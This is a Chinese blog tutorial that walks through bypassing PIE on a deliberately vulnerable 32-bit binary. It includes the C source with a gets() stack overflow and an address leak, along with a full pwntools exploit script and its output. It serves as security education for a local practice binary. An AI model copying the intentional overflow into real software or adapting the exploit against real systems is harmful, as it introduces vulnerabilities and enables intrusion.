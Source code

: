 ```yaml
---
title: '利用已泄漏信息绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '32-bit 与 64-bit 之间的差异'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

<Note>
  由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。
</Note>

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储各函数的绝对地址。*

```python
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9`；如果我们设置基地址后再次运行它，它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息，我们可以调用 `win()` 了：

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

<Note>
  我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步具体该怎么做，希望你能通过自己的能力解决它们。

  如果你不知道该怎么办，请先去看我之前写的文章，好好思考每一步为什么这样做，相信会有所帮助。
</Note>

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x04 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win` 的地址并调用它。

## 0x05 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

LINK


